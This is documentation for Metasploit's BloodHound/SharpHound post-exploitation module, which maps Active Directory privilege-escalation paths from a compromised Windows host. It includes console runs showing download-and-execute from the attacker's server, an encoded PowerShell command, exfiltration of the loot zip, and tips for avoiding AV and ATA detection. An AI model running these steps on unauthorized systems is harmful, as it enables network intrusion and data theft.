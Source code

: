 ## Vulnerable Application

This module will execute the BloodHound C# Ingestor (aka SharpHound) to gather sessions, local admin, domain trusts and more.
With this information BloodHound will easily identify highly complex privilage elevation attack paths that would otherwise be
impossible to quickly identify within an Active Directory environment.

This module can take several/many minutes to run due to the volume of data being collected.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session on a Windows domain
  3. Do: `use post/windows/gather/bloodhound`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see that the module is running a powershell in the target machine
  7. You should be able to see, after few minutes, that the module created a loot with the BloodHound results in zip format

## Options

### Method

Which method to use to get shaphound running.  Default is `download`.

  1. `download` requires the compromised host to have connectivity back to metasploit to download and execute the
      payload.  Sharphound is not written to disk.
  2. `disk` requires admin privileges to bypass the execution policy (if it isn't open).  Writes the `sharphound.exe`
     file to disk.  No connectivity is required but a disk write does happen which is likely to get caught by AV.

### CollectionMethode

The collection method to use. This parameter accepts a comma separated list of values. Accepted values are `Default`, `Group`,
`LocalAdmin`, `RDP`, `DCOM`, `GPOLocalGroup`, `Session`, `ObjectProps`, `ComputerOnly`, `LoggedOn`, `Trusts`, `ACL`, `Container`,
`DcOnly`, `All`.  The default method is `Default`.

### Domain

Specifies the domain to enumerate. If not specified, will enumerate the current domain your user context specifies.

### Stealth

Use stealth collection options, will sacrifice data quality in favor of much reduced network impact. The default value is `false`.

### ExcludeDomainControllers

Exclude domain controllers from session queries. Useful for ATA environments which detect this behavior. The default value is `false`.

### DomainController

Specify which Domain Controller to request data from. Defaults to closest DC using Site Names.

### LdapPort

Override the port used to connect to LDAP.

### SecureLdap

Uses LDAPs instead of unencrypted LDAP on port 636. The default value is `false`.

### DisableKerbSigning

Disables Kerberos Signing on requests. The default value is `false`.

### SkipPing

Skip all ping checks for computers. This option will most likely be slower as API calls will be made to all computers regardless of
being up Use this option if ping is disabled on the network for some reason. The default value is `false`.

### OutputFolder

Folder to write the JSON output to.  Default is to enumerate the Windows Temp folder.

### EncryptZip

If the zip should be encrypted by SharpHound using a random password.  Password is stored to `notes`, default is `true`.

### NoSaveCache

If the cache file (.bin) should NOT be written to disk.  Default is `true`.

## Scenarios

```
meterpreter > run post/windows/gather/bloodhound

[*] Using URL: http://0.0.0.0:8080/bvqUdtHUQ4De1O3
[*] Local IP: http://192.168.1.136:8080/bvqUdtHUQ4De1O3
[*] Invoking BloodHound with: Invoke-BloodHound -CollectionMethod Default -Threads 10 -JSONFolder "C:\Windows\TEMP" -PingTimeout 250 -LoopDelay 300 
[*] Initializing BloodHound at 6:44 AM on 4/29/2019
[*] Resolved Collection Methods to Group, LocalAdmin, Session, Trusts
[*] Starting Enumeration for uplift.local
[*] Status: 58 objects enumerated (+58 �/s --- Using 58 MB RAM )
[*] Finished enumeration for uplift.local in 00:00:00.6365050
[*] 0 hosts failed ping. 0 hosts timedout.
[*] 
[*] Compressing data to C:\Windows\TEMP\20190429064444_BloodHound.zip.
[*] You can upload this file directly to the UI.
[*] Finished compressing files!
```

### Windows 10 non-AD host, Windows Server 2012 AD, Disk Method

```
meterpreter > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/gather/bloodhound) > set method disk
method => disk
msf5 post(windows/gather/bloodhound) > exploit

[*] Uploading sharphound.exe as C:\Users\user\Desktop\qehojlwml.exe
[*] Loading BloodHound with: . C:\Users\user\Desktop\qehojlwml.exe --outputdirectory "C:\Users\user\AppData\Local\Temp" --zipfilename eiqxerh --encryptzip --nosavecache 
[+] EXECUTING:
powershell.exe -EncodedCommand LgAgAEMAOgBcAFUAcwBlAHIAcwBcAHQAYQByAGEAXABEAGUAcwBrAHQAbwBwAFwAcQBlAGgAbwBqAGwAdwBtAGwALgBlAHgAZQAgAC0ALQBvAHUAdABwAHUAdABkAGkAcgBlAGMAdABvAHIAeQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAdABhAHIAYQBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwACIAIAAtAC0AegBpAHAAZgBpAGwAZQBuAGEAbQBlACAAZQBpAHEAeABlAHIAaAAgAC0ALQBlAG4AYwByAHkAcAB0AHoAaQBwACAALQAtAG4AbwBzAGEAdgBlAGMAYQBjAGgAZQAgADsAIAA= -InputFormat None
[*] ----------------------------------------------
[*] Initializing SharpHound at 4:19 PM on 6/3/2020
[*] ----------------------------------------------
[*] 
[*] Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[*] 
[*] [+] Creating Schema map for domain HOODIECOLA.COM using path CN=Schema,CN=Configuration,DC=HOODIECOLA,DC=COM
[*] [+] Cache File not Found: 0 Objects in cache
[*] 
[*] [+] Pre-populating Domain Controller SIDS
[*] Status: 0 objects finished (+0) -- Using 19 MB RAM
[*] Status: 63 objects finished (+63 21)/s -- Using 26 MB RAM
[*] Enumeration finished in 00:00:03.3219377
[*] Compressing data to C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip
[*] Password for Zip file is QEqUpTtU0v. Unzip files manually to upload to interface
[*] 
[*] SharpHound Enumeration Completed at 4:19 PM on 6/3/2020! Happy Graphing!
[*] 
[+] Downloaded C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip: /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip
[+] Zip password: QEqUpTtU0v
[*] Deleting C:\Users\user\Desktop\qehojlwml.exe
[*] Post module execution completed

msf5 post(windows/gather/bloodhound) > notes

Notes
=====

 Time                     Host          Service  Port  Protocol  Type                     Data
 ----                     ----          -------  ----  --------  ----                     ----
 2020-06-03 23:27:05 UTC  2.2.2.2                           Sharphound Zip Password  "Bloodhound/Sharphound loot /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip password is QEqUpTtU0v"

```
